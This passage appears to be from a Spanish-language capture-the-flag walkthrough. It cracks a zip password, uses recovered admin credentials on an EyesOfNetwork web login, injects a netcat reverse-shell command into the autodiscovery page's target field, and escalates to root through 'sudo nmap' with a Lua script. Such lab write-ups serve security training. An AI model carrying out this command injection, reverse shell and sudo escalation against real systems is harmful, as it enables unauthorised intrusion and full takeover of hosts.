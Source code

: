 Veremos que la contraseña es `killah` por lo que ahora si lo descomprimiremos...

```shell
unzip file.zip
```

Metemos esa contraseña y obtendremos un archivo llamado `creds.txt` que contendra lo siguiente...

```
admin
isitreal31__
```

Si esas credenciales las ingresamos en la pagina del `login` que encontramos nos meteremos como `admin` en la pagina...

URL = https://packetstormsecurity.com/files/160888/EyesOfNetwork-5.3-Remote-Code-Execution-Privilege-Escalation.html

Dentro del mismo nos iremos a la siguiente `URL`...

```
URL = https://<IP>/lilac/autodiscovery.php
```

Y donde pone `Target Specification` pondremos lo siguiente...

```
& nc -e /bin/sh <IP> <PORT>
```

Le damos a `Add Target`...

Y por utlimo donde pone `Job Name` ponemos lo que sea por ejemplo `test`...

Una vez hecho todo esto, nos pondremos a la escucha...

```shell
nc -lvnp <PORT>
```

Y le damos en la pagina al boton `You Must Provide At Least One Target` que es en azul, una vez hecho eso nos redirigira a otro sitio donde nos muestra la informacion y ya tendremos una shell como el usuario `apache`...

La sanitizamos un poco...

```shell
script /dev/null -c bash
```

```shell
export TERM=xterm
export SHELL=/bin/bash
```

Una vez estando dentro hacemos lo siguiente...

```shell
echo 'os.execute("/bin/sh")' > /tmp/nmap.script
```

```shell
sudo nmap --script=/tmp/nmap.script
```
